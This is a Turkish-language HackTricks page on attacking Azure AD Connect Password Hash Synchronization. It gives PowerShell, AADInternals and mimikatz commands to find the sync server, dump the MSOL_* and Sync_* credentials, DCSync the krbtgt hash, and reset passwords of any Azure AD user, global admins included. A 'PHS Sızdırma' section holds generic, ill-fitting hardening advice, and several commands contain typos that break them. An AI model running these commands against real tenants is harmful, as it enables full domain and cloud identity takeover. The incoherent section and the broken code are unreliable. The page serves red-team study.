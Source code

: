 # Az - PHS - Parola Hash Senkronizasyonu

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz olan [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* Hacking hilelerinizi [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>

## Temel Bilgiler

[Belgelerden alınan bilgilere göre:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Parola hash senkronizasyonu**, hibrit kimlik sağlamak için kullanılan giriş yöntemlerinden biridir. **Azure AD Connect**, bir kullanıcının parolasının on-premises Active Directory örneğinden buluta dayalı bir Azure AD örneğine olan parola hash'inin senkronizasyonunu gerçekleştirir.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Bu, şirketlerin on-prem AD'yi Azure AD ile senkronize etmek için kullandığı **en yaygın yöntemdir**.

Tüm **kullanıcılar** ve **parola hash'lerinin hash'leri**, on-prem'den Azure AD'ye senkronize edilir. Bununla birlikte, **açık metin parolaları** veya **orijinal hash'ler** Azure AD'ye gönderilmez.\
Ayrıca, **dahili** güvenlik grupları (örneğin, etki alanı yöneticileri...) Azure AD'ye **senkronize edilmez**.

**Hash senkronizasyonu**, her **2 dakikada bir** gerçekleşir. Bununla birlikte, varsayılan olarak, Azure AD'de **parola süresi dolma** ve **hesap süresi dolma** senkronize **edilmez**. Bu nedenle, **on-prem parolası süresi dolmuş** (değiştirilmemiş) bir kullanıcı, eski parolayı kullanarak Azure kaynaklarına **erişmeye devam edebilir**.

Bir on-prem kullanıcısı bir Azure kaynağına erişmek istediğinde, **kimlik doğrulama Azure AD'de** gerçekleşir.

**PHS**, Kimlik Koruma ve AAD Domain Hizmetleri gibi özellikler için gereklidir.

## Pivoting

PHS yapılandırıldığında, bazı **yetkili hesaplar** otomatik olarak **oluşturulur**:

* **`MSOL_<installationID>`** hesabı otomatik olarak on-prem AD'de oluşturulur. Bu hesap, **Directory Senkronizasyon Hesapları** rolü verilir (bkz. [belgeler](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), yani **on-prem AD'de replikasyon (DCSync) izinlerine sahiptir**.
* **`Sync_<on-prem ADConnect Sunucusunun adı>_installationID`** adında bir hesap Azure AD'de oluşturulur. Bu hesap, Azure AD'deki **herhangi bir kullanıcının parolasını sıfırlayabilir** (senkronize edilen veya yalnızca bulut) Azure AD'de.

Önceki iki yetkili hesabın parolaları, **Azure AD Connect'in yüklü olduğu sunucudaki bir SQL sunucusunda** saklanır. Yöneticiler, bu ayrıcalıklı kullanıcıların parolalarını açık metin olarak çıkarabilir.\
Veritabanı, `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` konumunda bulunur.

Bu tablolardan birinden yapılandırmayı çıkarmak mümkündür, bunlardan biri şifrelenmiştir:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Şifrelenmiş yapılandırma**, **DPAPI** ile şifrelenmiştir ve içinde on-prem AD'deki **`MSOL_*`** kullanıcısının parolalarını ve AzureAD'deki **Sync\_\***'in parolasını içerir. Bu nedenle, bunları ele geçirmek, AD'ye ve AzureAD'ye yükseltme yapmayı mümkün kılar.

Bu konuşmada, bu kimlik bilgilerinin nasıl depolandığı ve şifrelendiği hakkında [tam bir genel bakış bulabilirsiniz](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### **Azure AD Connect sunucusunu bulma**

Azure AD Connect'in yüklendiği **sunucu etki alanına katılmış** ise (belgelerde önerilen), aşağıdaki komutla bulunabilir:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\*'ü Kötüye Kullanma

Bu bölümde, Azure AD Connect ile yapılandırılmış bir hibrit kimlik ortamında MSOL\_\* yetkilendirmelerini kötüye kullanma yöntemlerini ele alacağız.

#### PHS (Parola Hash Senkronizasyonu) Sızdırma

PHS, Azure AD Connect ile yapılandırılmış bir hibrit kimlik ortamında kullanılan bir özelliktir. Bu özellik, kullanıcıların parola hash'lerini Azure AD'ye senkronize etmelerine olanak tanır. Ancak, bu senkronizasyon sırasında parola hash'leri saldırganlar tarafından ele geçirilebilir.

Saldırganlar, PHS sırasında parola hash'lerini ele geçirmek için çeşitli yöntemler kullanabilirler. Bunlardan bazıları şunlardır:

1. **Pass-the-Hash (PtH) Saldırısı**: Saldırganlar, ele geçirdikleri parola hash'lerini kullanarak kimlik doğrulama yapabilirler. Bu sayede, kullanıcının kimlik bilgilerini bilmeksizin sistemlere erişebilirler.

2. **Parola Kırma Saldırısı**: Saldırganlar, ele geçirdikleri parola hash'lerini kırarak kullanıcının gerçek parolasını elde etmeye çalışabilirler. Bu sayede, kullanıcının hesabına tam erişim sağlayabilirler.

PHS sızdırma saldırılarına karşı korunmak için aşağıdaki önlemleri almanız önemlidir:

- Azure AD Connect sunucusunun güncel olduğundan emin olun.
- Parola karma algoritmasının güvenli olduğundan emin olun.
- Parola karma algoritmasının karma gücünü artırmak için tuzlama (salt) kullanın.
- Parola karma algoritmasının yavaşlatma faktörünü artırın.
- Parola karma algoritmasının tekrar sayısını artırın.
- Parola karma algoritmasının karma uzunluğunu artırın.

Bu önlemleri alarak, PHS sızdırma saldırılarına karşı daha güvenli bir hibrit kimlik ortamı oluşturabilirsiniz.
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Bu kimlik bilgilerini elde etmek için [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) aracını da kullanabilirsiniz.
{% endhint %}

### Sync\_\* Kullanımı

**`Sync_*`** hesabını ele geçirerek, herhangi bir kullanıcının (Global Yöneticiler dahil) şifresini **sıfırlamak** mümkündür.
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Sadece **bulut** kullanıcılarının şifrelerini değiştirmek de mümkündür (bu beklenmese de).
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Bu kullanıcının şifresini de çalmak mümkündür.

{% hint style="danger" %}
Başka bir seçenek, **Sync** kullanıcısının yapabileceği **ayrıcalıklı izinleri bir hizmet prensibine atamak** ve ardından bu hizmet prensibine erişmek suretiyle **ayrıcalık yükseltme** yapmaktır.
{% endhint %}

### Sorunsuz SSO

PHS ile Sorunsuz SSO kullanmak mümkündür ve bu da diğer kötüye kullanımlara açıktır. Aşağıdaki bağlantıda kontrol edin:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referanslar

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz olan [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>

